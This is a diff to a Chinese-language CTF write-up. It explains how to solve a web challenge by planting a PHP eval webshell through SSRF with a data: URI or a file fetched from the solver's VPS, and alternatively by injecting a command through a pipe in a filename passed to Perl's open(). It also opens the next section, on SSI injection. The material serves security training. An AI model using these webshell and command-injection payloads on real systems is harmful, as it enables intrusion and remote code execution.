

Before and after one commit to 181726943/writeup, a Markdown page: ctf-wp.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/ctf-wp.md
+++ b/ctf-wp.md
@@ -2819,3 +2862,41 @@ payload:
+3. 解题
+
+    **方法一--传木马用蚁剑连接**
+
+    1. SSRF配合PHP伪协议
+
+        payload:
+        ```php
+        ?url=data:text/plain,<?php%20@eval($_POST["cmd"]);?>&filename=aaa/aaa.php
+        ```
+    2. 服务器传马
+
+        在vps上绑定一句话木马进行监听，然后通过GET命令去请求，用$_GET[“filename”]传入的值作为文件名保存。
+
+        服务器上写马，用python启动一个http服务
+        ```python
+        python3 -m http.server
+        ```
+        payload:
+        ```php
+        ?url=xx.xx.xx.xx:port/xxx.php&filename=xxx.php
+        ```
+    木马上传完成以后去存放木马的路径访问，然后用蚁剑连接，直接访问文件拿不到flag。用蚁剑打开虚拟终端，在命令行执行`./readflag`
+
+    **方法二--perl语言漏洞**
+
+    因为GET函数在底层调用了perl语言中的open函数，但是该函数存在rce漏洞。当open函数要打开的文件名中存在管道符（并且系统中存在该文件名），就会中断原有打开文件操作，并且把这个文件名当作一个命令来执行。
+
+    1. 先创建文件
+        ```url
+        ?url=&filename=|/readflag
+        ```
+    2. 执行命令
+        ```url
+        ?url=file:|readflag&filename=a
+        ```
+
+## [BJDCTF2020] EasySearch (SSI-Server-Side Includes Injection（服务端包含注入）)
 
 1. 进入靶场之后用bp的Intruder尝试过爆破，但是没有什么效果。然后考虑**目录扫描**，会得到一个`index.php.swp`,这是一个备份文件，这种备份文件产的原因主要是线上环境中使用 vim 编辑器，在使用过程中会留下 vim 编辑器缓存，当vim异常退出时，缓存会一直留在服务器上，引起网站源码泄露。
 
````
Also changed, not shown: other parts of ctf-wp.md (+47 -4 lines).
